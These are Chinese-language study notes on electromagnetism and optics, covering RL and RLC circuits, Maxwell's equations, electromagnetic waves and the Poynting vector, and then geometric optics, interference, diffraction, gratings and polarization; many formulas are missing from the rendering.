
对于电流
最大是\(\dfrac{\varepsilon}{R}\)，在\(t=L/R\)达到最大值的\(63\%\)
对于电压
最大是\(\varepsilon\)，在\(t=L/R\)达到最大值的\(37\%\)
开关打到b¶
\(t=0\),\(i_0=\dfrac{\varepsilon}{R}\)

对于电流，在\(L/R\)时间后，电流减少到原来的\(37\%\)
对于电压,在\(L/R\)时间后，电压减少到原来的\(37\%\)
线圈的能量¶
Note
回忆电容器的能量

Info
如果是互感线圈，那么 \(W=MI_1I_2\)
Key-point
磁场的能量密度
总结
\(\mu_B=\dfrac{1}{2}\boldsymbol{B} \cdot \boldsymbol{H}\)
\(\mu_E=\dfrac{1}{2}\boldsymbol{D} \cdot \boldsymbol{E}\)
电磁振荡¶

电容电场能和线圈磁场能量相互转化
Info
可以类比于弹簧振子，弹簧的势能和动能相互转化

\(q\)->弹簧的位移\(x\),\(i\)->弹簧的速度\(v\),\(\dfrac{1}{C}\)->弹簧的劲度系数\(k\),\(L\)->弹簧的质量\(m\)
Proof
阻尼和受迫振动¶
RLC电路¶

对于开关打到a和b的情况，我们可以得到
即
过阻尼
当
此时为过阻尼震荡


临界阻尼
当
此时为临界阻尼震荡
图像与过阻尼相似,但是震荡得更快
欠阻尼
当
此时为欠阻尼震荡
做振幅不断减小的振动

受迫振动和共振
如果外加电压为交流电，当变化频率与电路固有频率相同时，电路会发生共振

Info
普通的天线无法同时接受很多的信号，如果很多人一起打电话，那么电线就会瘫痪掉，但是如果使用的是超导体天线，电阻很小，其振幅的宽度很小很小，不用担心共振的问题
最后，附上本人普通物理学(I)有关阻尼震荡的笔记，有空再敲上来吧

Maxwell Equation¶
约 3735 个字 预计阅读时间 13 分钟
改变人类文明进程的伟大方程(我了个豆，敲LaTeX真累啊)
对称性原则¶
我们首先回忆学过的方程
在真空中，我们有
- 电场高斯定理
- 磁场高斯定理
- 法拉第电磁感应定律
- 安培环路定理
在电介质或者磁芯材料中，我们有
- 电场高斯定理推广
- 磁场环路定理推广
我们还有欧姆定律微分形式
对称性原则：物理学家们希望方程是对称美观的，观察电场和磁场的高斯定律，于是自然不想看到磁场高斯定律的等号右边空空如也，也希望电场环路定律出现电流的形式，所以引入了磁荷\(q_m\)对方程进行修正
Stokez公式与麦克斯韦方程¶
我宣佈現在我也是麥克斯韋了

使用电场的环路定理，再用斯托克斯公式变成面积分
这启发我们，以一个封闭的曲面包裹着电流，其面积分为0；
但是这样的结论在给电容器充电时出现了诡异的情况

对于(1,2)曲面，面积分为0，(1,4)曲面，面积分为0，但是(1,3)曲面，面积分不为0，此时电流从1面进入，但是没有从3面出去；这太不自然了
所以我们自然引入位移电流\(I_D\)
但是\(I_D\)是什么呢？我们可以从面积分的形式出发
考虑(1,3)曲面\(S\)，只进不出
所以在(1,3)曲面上，我们有
此时在1曲面进的等于3曲面出的
位移电流
1曲面没有位移电流，3曲面没有自由电流，位移电流\(I_D=I_0\)
最后，更加完整的定义为
分别是电位移通量，位移电流，位移电流密度
i_D=i_0
电容充满电之后\(i_D=i_0=0\);
这个电流也会产生磁场


变化的电场产生磁场，变化的磁场产生电场，这就是麦克斯韦方程
最后，我们得到
以及
电磁波¶
我们可以从麦克斯韦方程推导出电磁波的性质
积分形式：
微分形式（自由空间：\(\rho_0 = 0, \boldsymbol{J}_0 = 0\)）：
分量形式：
平面波¶
首先，假设单一波源，在很远的自由空间中，在球面上取一弧面，可以近似为平面波；以其传播方向为\(z\)轴，电场和磁场分别为\(x\)和\(y\)轴

将上面的式子依次展开，得到以下8个方程
接下来，运用这八个方程，一步步推导出电磁波的性质
横波¶
首先，我们有，在\(x\)和\(y\)方向的电场强度和磁场强度都是一样的，不会变化；所以
由 (1) 式，我们有
由 (2-3) 式，我们有
由 (3) 式，我们有
由 (4-3) 式，我们有
所以电场和磁场随着z轴的变化是不变的，可以设为\(0\)
\(E \perp H\)¶
运用\(E_z=H_z=0\)，我们有
(2-1) 式
(2-2) 式
(4-1) 式
(4-2) 式
由于\(x,y\)的方向是任意定的，那么我们可以设\(x\)的方向就是电场的方向；那么我们有
所以磁场强度的方向与电场强度方向垂直，故\(E \perp H\)
波动方程¶
原来光就是电磁波
对上面的四个方程中的(2-2)两边对\(t\)求偏导
同理，对(4-1)操作，得到以下两个方程
猜根得到
带入方程，得到
又因为
在真空中，磁导率和介电常数为1；代入数据计算发现，\(v=c=3.0 \times 10^8 m/s\)，这就是光速
Info
詹姆斯·克拉克·麦克斯韦（James Clerk Maxwell）在1861年至1862年期间，通过他的电磁理论推导出了光速。他在发表于1865年的论文《电磁场的动力学理论》（A Dynamical Theory of the Electromagnetic Field）中系统地总结了这一成果。
麦克斯韦通过结合法拉第电磁感应定律、安培定律（修正后引入了位移电流）、高斯定律以及高斯磁定律，形成了一组描述电磁场的方程组，即后来被称为“麦克斯韦方程组”。在推导过程中，他注意到电磁波的传播速度与介质的电磁性质相关：
当麦克斯韦使用当时已知的实验数据计算该值时，发现其结果接近于已知的光速（约 \( 3 \times 10^8 \, \text{m/s} \)）。因此，他提出了一个革命性的假设：光是一种电磁波。这一发现是物理学史上的重要里程碑，将电磁学和光学统一在一个理论框架内。
而式子中余下的
即为折射率(光速在真空中的速度与介质中的速度的比值)
电场和磁场¶
由推导电场与磁场相互垂直的(2-2)式\(\dfrac{\partial E_x}{\partial z} = -\kappa_m \mu_0 \dfrac{\partial H_y}{\partial t}\),继续将得出的电场和磁场代入，得到
初相相同
在真空中，\(\kappa_e=\kappa_m=1\)
所以
Key-point
电场和磁场只差一个常数！

电磁波的能量密度¶
单位体积内电磁波的能量包括电场的部分和磁场的部分
更一般的
展开：
由麦克斯韦方程：
代入高亮部分后得到：
以上的化简运用了
最后运用高斯定理化简得到
接下来，我们继续讨论最后的\(J_0 \cdot E\) 积分会得到什么
由于\(J_0 =\sigma (\boldsymbol{E}+\boldsymbol{K}) , \therefore \boldsymbol{E}=\dfrac{1}{\sigma} J_0 - \boldsymbol{K}\)
所以

最后得到单位时间内的能量为
Key-point
Poynting 矢量¶
定义单位时间，单位面积内的能量流动
Note
其中\(Z_0=377 \Omega\)
能量密度(单位时间，单位面积)为Poynting矢量的均值
Note
电场能量密度与磁场能量密度的关系
故总能量密度(单位时间，单位体积)为
\(I\) 与 \(\mu\) 的关系

Example

电路中的能量传输¶

如图的一个直流电路

考虑与电源正极相连的导线，导线内部有一个电场，那么导线外部一定也有一个方向相同的电场,这是因为
再加上一个垂直导线的电场，根据\(S=E \times H\)，我们可以得到能量流动的方向，一方面流向电阻，另外一方面被导线消耗
与电源负极相连的导线也是类似的；

电磁波蕴含的力¶

首先假设其有一个力\(\Delta F\)，那么这个力会对电荷做功，即\(\Delta W = \Delta F \cdot \Delta l\);而这一部分功就是这个物体吸收的净能量;
故
Warning
注意是矢量减
光压(light pressure)¶
单位面积上的力
动量密度¶
单位体积内的动量
\(g_{in}=\dfrac{1}{c^2}S_{in}\) 为入射光的动量密度，\(g_{out}=\dfrac{1}{c^2}S_{out}\) 为反射光的动量密度
Key-point
对于白体，\(S_{in}=S_{out}\)，故\(g_{in}=g_{out}\)
对于黑体，\(S_{out}=0\)，故\(g_{in}=\dfrac{1}{c^2}S_{in}\)
光学¶
约 8317 个字 预计阅读时间 29 分钟
可见光¶
在电磁波中，可见光只占了很小一部分

Property
- 可见光波长范围：\(400nm-700nm\)
- 可见光频率范围：\(4.3\times10^{14}Hz-7.5\times10^{14}Hz\)
- 可见光波长与频率的关系：\(\lambda f=c\)
- 人眼最敏感的波长\(550nm\)左右为黄绿光
- 波长越长，频率越低，能量越低,所以红光能量最低，紫光能量最高
波的多普勒效应¶
其中，\(v\)为波在介质中的传播速度，波源速度为\(v_s\)，接收者速度为\(v_0\)，\(f\)为波的频率
对于光波，有红移和蓝移
- 红移：波源远离接收者，波长变长，频率变小，光谱向红色移动
- 蓝移：波源靠近接收者，波长变短，频率变大，光谱向蓝色移动
Key-point
通式为
其中\(\theta\)为速度与光波运动的夹角
几何光学¶
全反射¶
全反射是光波在传播过程中发生的一种物理现象。当光从光密介质（如玻璃或水）进入光疏介质（如空气）时，如果入射角大于某个临界角（称为临界角），光就不会发生折射，而是全部被反射回光密介质，这种现象称为全反射

例如，在玻璃中，\(n=1.5\)，在空气中，\(n_0=1\);又有
临界角为\(\theta_2 = 90^\circ\)，所以此时
如果入射角大于临界角，光就会发生全反射，被束缚在光密介质中,在这个例子中，临界角为\(\theta_c = \arcsin \dfrac{1}{1.5} = 41.8^\circ\)
Note
求折射率,可以通过以下公式求解
其中\(\theta_1\)为空气中入射角，\(\theta_2\)为折射角
色散¶
**色散现象**是指当白光或复色光通过介质（如棱镜、光栅）时，不同波长的光由于折射率不同而发生不同程度的偏折，从而使光被分解成各种单色光的现象。它是光的波动特性的一种表现，主要由介质的**折射率随波长的变化**引起。
由于 \( v \) 与波长 \( \lambda \) 相关，介质对不同波长的光折射率不同，导致折射角不同。通常情况下：
- 短波长光（如紫光）折射率较大，偏折角较大。
- 长波长光（如红光）折射率较小，偏折角较小。
这种波长依赖性导致了色散。

惠更斯原理¶
定理内容
波前上的每一个点都可以看作是新的球面波（次波）源，这些次波相干叠加后形成了波的传播方向和波前。

惠更斯原理证明光的反射与折射

反射
证明三角形全等，运用等角互余
折射
再运用
带入即可
费马原理¶
光程定义为
其中\(n_1\)和\(n_2\)分别为两个介质的折射率，\(s_1\)和\(s_2\)分别为两个介质中光线的实际路径长度
积分形式为
费马原理是指光线在传播过程中，若可以成像，则光程的变分为零(对某一个变量求偏导为零)
即
费马原理证明反射和折射


成像(Image Formation)¶

成像的基本原则是等光程
左边称为物方，右边称为像方
球面镜成像¶
C为球心;r为球半径;

首先，使用正弦定理
使用余弦定理
不同的\(\phi\)对应不同的成像位置,球面不能成像；
唯一可能的位置为两边为0；
或者使用旁轴近似,即\(\phi\)很小,右边为0；
又有
符号的约定
- \(o\),实为+，虚为-(Q，在左为+，右为-)
- \(i\),实为+，虚为-(Q'，在左为-，右为+)
- \(r\),凸为+，凹为-(C,在左为-，右为+)


球面镜反射¶
带入折射公式
如果是平面镜，那么\(r \to \infty\)，成虚像；
放大倍数¶
首先，由旁轴近似
\(y'<0\)
如果\(n=n'\)，则\(m=-\dfrac{i}{o}\) 负号表示倒像
薄透镜成像¶
首先，对于\(n\)和\(n_L\),\(n_L\)和\(n'\)，分别使用球面镜成像公式
其中
\(o_2\)是Q经过第一个球面镜的虚像像距,所以
对于(1)式两边同时乘以\(f_2\)，对于(2)式两边同时乘以\(f_1'\)
相加
除过去,得到
其中，令
磨镜者公式(Lens Maker's Equation)¶
所以
如果\(n=n'=1\)，则\(f' = f\)
如果\(f'和f\)都为正，则透镜为凸透镜，反之\(f，f'\)为负，则透镜为凹透镜
符号约定¶
- 如果 \(Q\) 在 \(F\) 点的左侧，\(x > 0\)
- 如果 \(Q\) 在 \(F\) 点的右侧，\(x < 0\)
- 如果 \(Q'\) 在 \(F'\) 点的左侧，\(x' < 0\)
- 如果 \(Q'\) 在 \(F'\) 点的右侧，\(x' > 0\)
可以化简为
横向放大倍数与屈光度¶
对于单个镜面，放大倍数为
其中\(o_2\)是Q经过第一个球面镜的虚像像距,是负的；
定义屈光度
眼镜度数定义为100D；
人眼成像¶
人眼最近可以看清的距离为25cm，最远可以看清的距离为无穷远；
此时\(f = 22.7mm\)
看无穷远时,\(d_o = \infty, d_i = 25mm\),此时\(f = 25mm\)
近视眼和远视眼可以抵消吗？
近视眼和远视眼不能抵消，近视眼是看不清无穷远，成像在视网膜前方，远视眼是看不清25cm，成像在视网膜后方；两者都是因为人的晶状体变化跟不上，如果同时有近视眼和远视眼，可能只能看到特定距离的物体；
放大镜¶
对于很小的物体，我们可以把它凑得离眼睛很近，但是这样对晶状体的压力很大，所以我们使用放大镜，凑得很近的时候，利用放大镜成一个放大的虚像
例如，原本在\(N\)的地方有一个小物体，高度为\(d_0\)
利用放大镜
放大倍数
对于该放大镜
我们要把像成在N处，\(d_i\)是虚像，所以\(-d_i = N\)
也就是说
得到放大倍数为
波动光学¶
光的干涉(Interference)¶
光的叠加¶
电场强度 \(E\) 的振动在空间的传播可以表示为：
对于两列光波的叠加：
- \(\omega_1 = \omega_2 = \omega\)
- \(E_1 = E_{10} \cos(\omega t + \varphi_{10})\)
- \(E_2 = E_{20} \cos(\omega t + \varphi_{20})\)
叠加电场：
- 同相位：\(\Delta \varphi = 0\),相干，in phase
- 反相位：\(\Delta \varphi = \pi\)，out of phase
复平面矢量推导
对于两列光波的叠加：
- \(\omega_1 = \omega_2 = \omega\)
- \(E_1 = E_{10} \cos(\omega t + \varphi_{10})\)
- \(E_2 = E_{20} \cos(\omega t + \varphi_{20})\)
叠加电场：
光强：
其中，\(\Delta\varphi = \varphi_{20} - \varphi_{10}\)
干涉的光强分布
干涉现象的光强分布可以表示为：
其中，\(I_1\) 和 \(I_2\) 是两列光波的强度，\(\Delta \varphi\) 是相位差。
当 \(I_1 = I_2\) 时，光强分布为：
这表明光强的最大值为 \(I_{\text{max}} = 4I_1\)，最小值为 \(I_{\text{min}} = 0\)。
媒质中的光程¶
相位差在分析光的干涉时十分重要，为便于计算光通过不同媒质时的相位差，引入“光程差”的概念。(光程是 \(\int n ds\))
如果在介质中
此时
结论
- 相干条件：振动方向相同，相位差恒定,频率相同
干涉判断：
杨氏双缝干涉实验¶
- 干涉相长，明纹：\(\delta = d \cdot \frac{x}{D} = \pm k\lambda\)
- 干涉相消，暗纹：\(\delta = d \cdot \frac{x}{D} = \pm (2k - 1)\frac{\lambda}{2}\)
- 暗纹中心：\(x_{\pm(2k+1)} = \pm (2k - 1)\frac{D}{2d}\lambda, \, k = 1,2,3\ldots\)
- 明纹中心：\(x_{\pm k} = \pm k\frac{D}{d}\lambda, \, k = 0,1,2,3\ldots\)
- 两相邻明纹（或暗纹）间距：\(\Delta x = \frac{D}{d}\lambda\)
Question
-
若S1、S2两条缝的宽度不等，条纹有何变化？ 两条缝的宽度不等，使两光束的强度不等；虽然干涉条纹中心距不变，但原极小处的强度不再为零，条纹的可见度变差。
-
若使用白光进行干涉实验，条纹有何变化？ 若使用白光光源，则在中央零级出现白色亮纹，两侧对称排列若干彩色条纹。
-
用白光 作双缝干涉实验时，能观察 到几级清晰可辨的彩色光谱？ 在中央白色明纹两侧， 只有第一级彩色光谱是清晰可辨的。
洛埃德镜实验¶
当屏移到A'B'位置时，在屏上的P点出现暗条纹。这一结论证实，光在镜子表面反射时有相位\(\pi\)突变。
Reflection Phase Shifts半波损失
如果光是从光 疏媒质传向光密媒质，在其分界面上反射时将发生半波损失，折射波无半波损失。在上述实验中，光从空气传向玻璃，因此在反射时发生半波损失。产生\(\pi\)的相位差，因此为暗纹。
等厚干涉¶
当一束平行光入射到厚度不均匀的透明介质薄膜上，如图所示，两光线 \(a\) 和 \(b\) 的光程差：
其中，\(\delta'\) 为因为半波损失而产生的附加光程差。
- 当 \(e\) 保持不变时，光程差仅与膜的厚度有关，凡厚度相同的地方光程差相同，从而对应同一条干涉条纹 —— 等厚干涉条纹。
劈尖膜
从空气到玻璃存在半波损失
发生干涉时
相邻明纹（或暗纹）
利用劈尖测量工件凹凸
利用相似三角形关系，我们可以得到：
所以：
牛顿环实验
光程差为
由几何关系可知
展开并简化得到：
忽略 \(e^2\) 项，得到：
对于 \(k = 0\)，\(r = 0\)，中心是暗斑。
对于 \(k = 1\)，
牛顿环是等厚干涉，其干涉条纹是内疏外密的同心圆环。
光的衍射(Diffraction)¶
光在传播过程中遇到障碍物时，会绕过障碍物继续传播，这种现象称为光的衍射。
Note
- 菲涅尔衍射:菲涅耳衍射是指当光源和观察屏，或两者之一离障碍物（衍射屏）的距离为有限远时，所发生的衍射现象
- 夫琅禾费衍射:当光源和观察屏两者均离障碍物（衍射屏）的距离为无限远时，所发生的衍射现象
惠更斯-菲涅尔原理
- 惠更斯原理：波面上的每一点都可以看作是新的次波源，这些次波源发出的球面次波(wavelets)的包络面就是新的波c面。
- 惠更斯-菲涅尔原理：次波源发出的球面次波在空间某点的相干叠加，决定了该点波的强度。
- \(K(\theta)\) 为倾斜因子，当 \(\theta = 0\) 时，\(K(\theta) = 1\)( 沿原波传播方向的子波振幅最大)，\(\theta\) 越大，\(K(\theta)\) 越小, 当 \(\theta = \frac{\pi}{2}\) 时，\(K(\theta) = 0\)。大于 \(\frac{\pi}{2}\) 时，\(K(\theta)\) 为0，子波不能向后传播。
惠更斯-菲涅尔原理的数学表示
在夫琅禾费衍射中，由于距离是无限远，所以 \(r\) 和 \(\theta\) 都是常数，可以写成：
单缝夫琅禾费衍射¶
光路图如下：
- 光程差：\(\delta = a \sin \theta\)，这是因为费马原理等光程
当 \(\theta = 0\) 时，\(a \sin \theta = 0\)，此时为中央明纹
菲涅尔半波带法¶
在波阵面上截取一个条状带，使它上下两边缘发的光在屏上处的光程差为 \(\lambda/2\)，此带称为半波带。
- 当 \(a \sin \theta = \lambda\) 时，可将缝分为两个“半波带”。
- 相邻半波带上对应点发的光在 \(P\) 处干涉相消形成暗纹。
由半波带法可得明暗纹条件：
- 暗纹：\(a \sin \theta = \pm k\lambda\), \(k = 1,2,3,\ldots\)
- 明纹：\(a \sin \theta = \pm (2k + 1)\frac{\lambda}{2}\), \(k = 1,2,\ldots\)
- 中央明纹：\(a \sin \theta = 0\)
对于其它角度，使用振幅矢量叠加法；
通过公式推导，我们可以得到：
这可以进一步简化为：
振幅的绝对值为：
当 \(N\Delta\varphi = \frac{2\pi}{\lambda} a \sin \theta\) 时，我们可以定义：
因此，振幅可以近似为：
这表明光的强度分布与 \(\sin u / u\) 的形式有关，称为“sinc”函数。
暗纹当 sinc 函数为 0, \( u = \pi \), \( a \sin \theta = k \lambda \), 即 \( \sin \theta = \frac{k \lambda}{a} \)
次级大宽度为两个相邻暗纹之间的距离，即：
如果问实际距离，则需要乘以 \(D\)(前提是角度很小)
波长变化对于衍射条纹的影响
假设固定\(\lambda\)，变化\(a\)，则条纹间距会变化。
-
当 \(\frac{\lambda}{a} \to 1\) 时，\(\sin \theta_0 \to 1\)，此时屏幕已无暗纹；
-
当 \(\frac{\lambda}{a} \to \infty\) 时，\(\Delta x_0 = \infty\)，此时屏幕亮度均匀；
-
当 \(\frac{\lambda}{a} \to 0\) 时，\(\Delta x_0 \to 0\) 此时衍射图样聚集在一起，屏幕上只显出单一的亮线——单缝的几何光学像。(a很大，相当于没有阻挡，正常的几何光学成像)
圆孔的夫琅禾费衍射
实验装置如下：
其会形成一系列的同心圆环，称为“爱里斑”。
衍射受限与瑞利判据¶
理想点光源的像是一个点，但实际上由于衍射，像是一个爱里斑。(可以近似为一个宽度为透镜高度，后面是无限大透镜的衍射)
很近的两个物点象斑有可能重叠，从而分辨不清。
瑞利判据
对于两个等光强的非相干物点,若其中一点的象斑中心恰好落在另一点的象斑的边缘(第一暗纹处),则此两物点被认为是刚刚可以分辨。此时两个爱里斑重叠部分的光强为爱里斑中心光强的80%。
光栅衍射¶
光栅
光栅—大量等宽等间距的平行狭缝(或反射面) 构成的光学元件。
光栅常数：周期长度 \(d = a + b\)
光栅的衍射图样为在原单缝的中央明纹中，出现暗纹，随着 \(N\) 的增加，衍射条纹的亮度会逐渐增加，但是也逐渐变细。
是多个单缝衍射的干涉结果。
相邻两光的相位差为
相邻振动的振幅 \(A_1, A_2, \ldots, A_N\)
这里类似于单缝衍射的振幅矢量叠加法，但是也有所不同。
- 当 \(\Delta \varphi = 2k\pi\) 时，每一个振幅矢量方向相同，所以 \(A_p = NA_1\)，此时为最大值。
即
这里的\(k\)有范围，因为\(d \sin \theta\) 最大为 \(d\)，所以 \(k\) 最大为 \(\frac{d}{\lambda}\)。
k为主极大级数，k=0称中央明纹。光栅极大的位置由相邻狭缝间的干涉极大决定
- 当\(N\Delta \varphi = 2k\pi\)时，此时矢量叠加闭合，\(A_p = 0\)，此时为暗纹。
Warning
k'不能取N的整数倍，因为这时是主极大的位置。
光栅衍射的谱线特点
1）主级大明纹的位置与缝数N无关，它们对称地分布在中央明纹的两侧，中央明纹光强最大；
2）在相邻的两个主级大之间，有N−1个极小（暗纹）和N−2个光强很小的次极大，当N很大时，实际上在相邻的主极大之间形成一片暗区，即能获得又细又亮暗区很宽的光栅衍射条纹。
定量分析光栅衍射的光强
其中
当 \(\theta \to 0\) 时，\(I_m \to N^2 I_0\)，所以缝数越多，光强越大。
半角宽度
如果 \(\theta\) 不小，\(\sin \theta \neq \theta\)
与它最近的0点为(\(Nd\sin \theta' = (mN + 1) \lambda\))
所以使用拉格朗日中值定理，有
\(\theta\) 很小时，\(\cos \theta \to 1\)，所以
所以缝越多，半角宽度越小，条纹越细。
光栅衍射的缺极¶
缺级：缺级是指光栅中不同单缝衍射互相干涉的主极大位置于单缝衍射的暗纹位置重合，导致光栅衍射的明纹消失。
即
当 \(\dfrac{a}{d} = \dfrac{k'}{k}\) 时，光栅衍射的明纹消失。
如果说第一个缺级出现在\(k=2\)(\(k'=1\)),这说明\(d=2a=a+b\)，即\(b=a\)。
图例给出的是\(d=4a\)的情况；
光栅光谱
光栅光谱是指复色光照射光栅时，谱线按波长向外侧依次分开排列，形成的光谱；
只有第一级，第二级开始有重叠。
光栅光谱的分辨本领
光栅的分辨本领是指把波长靠得很近的两条谱线分辨的清楚的本领。
与瑞利判据类似，当两条谱线刚好能分辨时，一个在极大，一个在极小。
波长为 \(\lambda + \Delta \lambda\) 的第 \(k\) 级主极大的角位置为：
波长为 \(\lambda\) 的第 \(kN+1\) 级极小的角位置为：
因此，分辨本领 \(R\) 为：
即要分辨清楚第\(k\)级谱线，需要\(N\)条缝。这里的\(\lambda\)是平均波长，\(\Delta \lambda\)是波长偏移。
色散本领与分辨本领
首先，对于\(m\)级的主极大，有
所以两边同时取微分，有
所以可以定义色散本领
使用瑞利判据，当其可以分辨时，两者角度相差为半角宽度，即
所以此时可以分辨的极限波长差为
所以分辨本领定义为
Bragg 公式¶
布拉格公式：
其中\(d\)是晶格常数，\(\theta\)是入射角，\(n\)是整数，\(\lambda\)是波长。
解释了不同晶面间反射的干涉增强条件.
光的偏振(Polarization)¶
在自然光中，光波的电矢量在任意时刻和任意位置的方向都是随机的，这种光称为非偏振光。而在某些情况下，光波的电矢量在某一方向上的振动，而在另一方向上的振动为零，这种光称为偏振光。
线偏振光¶
自然光通过偏振片之后，只有在某一方向上的电矢量振动，这种光称为线偏振光。 只有与偏振片的缝方向垂直的电矢量才能通过;其它的电矢量会被吸收。
在自然光中，任意两个垂直分量的振幅是相等的，即可以把自然光分解为任意两个垂直方向的线偏振光的叠加，那么经过偏振片后，只有与偏振片允许(TA)的分量通过，其它分量被吸收。假设自然光的电矢量为\(E_0\),则经过偏振片后的电矢量为\(\dfrac{E_0}{\sqrt{2}}\)。光强为\(I_0\)，则经过偏振片后的光强为\(\dfrac{I_0}{2}\)。(\(I_0 \propto E_0^2\))
马隆定律
线偏振光通过与振动方向成\(\theta\)角的偏振片后，光强为\(I = I_0 \cos^2 \theta\)。
所以在上图中\(I_2=I_1 \cos^2 \theta\)
利用马隆定律推导自然光通过偏振片后的光强
我们知道自然光通过任意方向偏振片光强都变为原来的一半；我们可以使用马隆定律来推导这一结论。
首先，对于自然光，可以将其看作无数个方向上的振动，它与偏振片的夹角为\(\alpha\),\(\alpha\)满足\(0\)到\(2\pi\)的均匀分布。
